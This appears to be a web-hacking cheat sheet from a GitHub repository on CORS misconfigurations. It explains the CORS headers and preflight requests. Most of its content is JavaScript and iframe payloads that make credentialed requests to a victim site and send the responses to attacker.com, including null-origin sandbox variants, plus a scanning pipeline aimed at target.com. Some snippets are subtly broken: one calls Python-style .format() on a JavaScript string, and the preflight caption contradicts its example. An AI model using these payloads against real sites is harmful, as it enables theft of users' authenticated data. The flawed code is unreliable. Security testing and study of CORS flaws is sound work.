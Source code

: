 # CORS - Misconfigurations & Bypass
Cross-Origin Resource Sharing (CORS) standard enables servers to define who can access their assets and which HTTP request methods are permitted from external sources.

A same-origin policy mandates that a server requesting a resource and the server hosting the resource share the same `protocol` (e.g., http://), `domain name` (e.g., internal-web.com), and `port` (e.g., 80). Under this policy, only web pages from the same domain and port are allowed access to the resources.

![cors](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/9eee5927-fdb6-4fe2-8182-d669453230d1)





## `Access-Control-Allow-Origin` Header
This header can allow multiple origins, a `null` value, or a wildcard `*`. However, no browser supports multiple origins, and the use of the wildcard `*` is subject to limitations. (The wildcard must be used alone, and its use alongside `Access-Control-Allow-Credentials: true` is not permitted.)
This header is issued by a server in response to a cross-domain resource request initiated by a website, with the browser automatically adding an `Origin` header.

## `Access-Control-Allow-Credentials` Header
By default, cross-origin requests are made without credentials like cookies or the Authorization header. Yet, a cross-domain server can allow the reading of the response when credentials are sent by setting the `Access-Control-Allow-Credentials` header to `true`.
If set to true, the browser will transmit credentials (cookies, authorization headers, or TLS client certificates).


```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        console.log(xhr.responseText);
    }
}
xhr.open('GET', 'http://example.com/', true); 
xhr.withCredentials = true; 
xhr.send(null);
```

```javascript
fetch("https://target.com/api/user/profile", {
	credentials: "include"
})
.then((response) => {
	document.location = "//attacker.com/log?key={0}".format(response.text());
});
```

```javascript
fetch(url, {
  credentials: 'include'  
})
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://bar.other/resources/post-here/');
xhr.setRequestHeader('X-PINGOTHER', 'pingpong');
xhr.setRequestHeader('Content-Type', 'application/xml');
xhr.onreadystatechange = handler;
xhr.send('<person><name>Arun</name></person>');
```


## CSRF Pre-flight request
When initiating a cross-domain request under specific conditions, such as using a non-standard HTTP method (anything other than `HEAD`, `GET`, `POST`), introducing new headers, or employing a special Content-Type header value, a pre-flight request may be required. This preliminary request, leveraging the 
`OPTIONS` method, serves to inform the server of the forthcoming cross-origin request's intentions, including the HTTP methods and headers it intends to use.

The Cross-Origin Resource Sharing (CORS) protocol mandates this pre-flight check to determine the feasibility of the requested cross-origin operation by verifying the allowed methods, headers, and the trustworthiness of the origin. For a detailed understanding of what conditions circumvent the need for a pre-flight request, refer to the comprehensive guide provided by [Mozilla Developer Network (MDN)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests).

It's crucial to note that the absence of a pre-flight request does not negate the requirement for the response to carry authorization headers. Without these headers, the browser is incapacitated in its ability to process the response from the cross-origin request.
Consider the following illustration of a pre-flight request aimed at employing the `PUT` method along with a custom header named Special-Request-Header:

```html
OPTIONS /info HTTP/1.1
Host: example2.com
...
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Authorization
```

In response, the server might return headers indicating the accepted methods, the allowed origin, and other CORS policy details, as shown below:

```html
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

## Reflection of `Origin` in `Access-Control-Allow-Origin`
```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://example.com/details',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

## Exploiting the `null` Origin

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```


## Automate CORS
```bash
echo https://target.com | hakrawler | httpx -silent | CorsMe
```




## Tools
* [CorsMe](https://github.com/Shivangx01b/CorsMe)
* [hakrawler](https://github.com/hakluke/hakrawler)


























